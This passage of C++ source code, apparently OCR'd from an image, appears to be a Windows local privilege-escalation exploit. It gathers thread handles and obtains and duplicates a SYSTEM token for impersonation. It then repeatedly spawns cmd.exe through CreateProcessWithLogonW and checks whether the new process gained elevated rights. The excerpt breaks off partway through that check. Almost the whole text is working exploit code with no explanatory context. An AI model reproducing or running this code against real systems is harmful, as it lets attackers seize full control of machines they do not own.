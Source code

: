 ```

  for (int i = 0; i < MAX_PROCESSES; ++i) {
    HANDLE hThread = GetThreadHandle();
    DWORD dwTid = GetThreadId(hThread);
    if (!dwTid)
    {
      printf("Handle not a thread: %d\n", GetLastError());
      exit(1);
    }

    if (thread_handles.find(dwTid) == thread_handles.end())
    {
      thread_handles[dwTid] = hThread;
    }
    else
    {
      CloseHandle(hThread);
    }
  }

  printf("Done, got %zd handles\n", thread_handles.size());
  
  if (thread_handles.size() > 0)
  {
    HANDLE hToken = GetSystemToken(thread_handles.begin()->second);
    printf("System Token: %p\n", hToken);
    
    for (const auto& pair : thread_handles)
    {
      ThreadArg* arg = new ThreadArg;

      arg->hThread = pair.second;
      DuplicateToken(hToken, SecurityImpersonation, &arg->hToken);

      CreateThread(nullptr, 0, SetTokenThread, arg, 0, nullptr);
    }

    while (true)
    {
      PROCESS_INFORMATION procInfo = {};
      STARTUPINFO startInfo = {};
      startInfo.cb = sizeof(startInfo);     

      if (CreateProcessWithLogonW(L"test", L"test", L"test", 
              LOGON_NETCREDENTIALS_ONLY, nullptr, 
              L"cmd.exe", CREATE_SUSPENDED, nullptr, nullptr, 
              &startInfo, &procInfo))
      {
        HANDLE hProcessToken;
        // If we can't get process token good chance it's a system process.
        if (!OpenProcessToken(procInfo.hProcess, MAXIMUM_ALLOWED, 
                              &hProcessToken))
        {
          printf("Couldn't open process token %d\n", GetLastError());
          ResumeThread(procInfo.hThread);
          break;
        }
        // Just to be sure let's check the process token isn't elevated.
        TOKEN_ELEVATION elevation;
        DWORD dwSize =0;
        if (!GetTokenInformation(hProcessToken, TokenElevation, 
                              &elevation, sizeof(elevation), &dwSize))
        {
```